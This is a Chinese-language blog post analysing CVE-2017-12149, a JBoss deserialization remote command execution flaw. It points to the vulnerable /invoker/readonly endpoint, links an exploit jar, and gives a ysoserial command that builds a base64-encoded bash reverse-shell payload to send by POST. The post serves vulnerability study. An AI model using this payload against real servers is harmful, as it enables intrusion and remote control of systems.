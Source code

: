 ```yaml
---
layout: post
title:  "CVE-2017-12149 JBoss java deserialization vulnerability"
date:   2019-01-12 20:15:33 +0700
categories: [Web安全]
---
```


## 0x00 **漏洞概要**

| **漏洞名称**                   | JBOSSAS5.x/6.x反序列化命令执行漏洞 |
| ------------------------------ | ---------------------------------- |
| **威胁类型**                   | 远程命令执行                       |
| **威胁等级**                   | 高                                 |
| **漏洞ID**                     | CVE-2017-12149                     |
| **受影响系统及应用版本**       | Jboss AS 5.xJbossAS 6.x            |
| **不受影响影响系统及应用版本** |                                    |

## 0x01 漏洞描述

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

## 0x01 漏洞分析

![Snipaste_2019_01_12_15_17]({{site.url}}/images/Snipaste_2019_01_12_15_17.png)

上面是`doFilter`函数过滤器，由于其没有对HTTP POST的数据进行有效的检验，所以导致该漏洞

## 0x02 漏洞利用

![Snipaste_2019-01-12_15-39-48]({{site.url}}/images/Snipaste_2019-01-12_15-39-48.png)

访问` /invoker/readonly `请求中，服务器将用户提交的POST内容进行了Java反序列化

![Snipaste_2019-01-12_15-42-22]({{site.url}}/images/Snipaste_2019-01-12_15-42-22.png)

一般存在这个就存在漏洞了。

**使用工具：**

![Snipaste_2019-01-12_16-02-04]({{site.url}}/images/Snipaste_2019-01-12_16-02-04.png)

工具地址：https://github.com/threeworld/java-deserialization-exploits/blob/master/JBoss/jboss%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96_CVE-2017-12149.jar

**使用ysoserial来复现生成序列化数据**

**生成二进制文件：**

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,xxxxx:xxx}|{base64,-d}|{bash,-i}" > poc.ser
```

**发送POC**

生成好的POC即为poc.ser，将这个文件作为POST Body发送至/invoker/readonly即可：

[![img](https://github.com/vulhub/vulhub/raw/master/jboss/CVE-2017-12149/img/3.png)](https://github.com/vulhub/vulhub/blob/master/jboss/CVE-2017-12149/img/3.png)

成功反弹shell：

[![img](https://github.com/vulhub/vulhub/raw/master/jboss/CVE-2017-12149/img/4.png)](https://github.com/vulhub/vulhub/blob/master/jboss/CVE-2017-12149/img/4.png)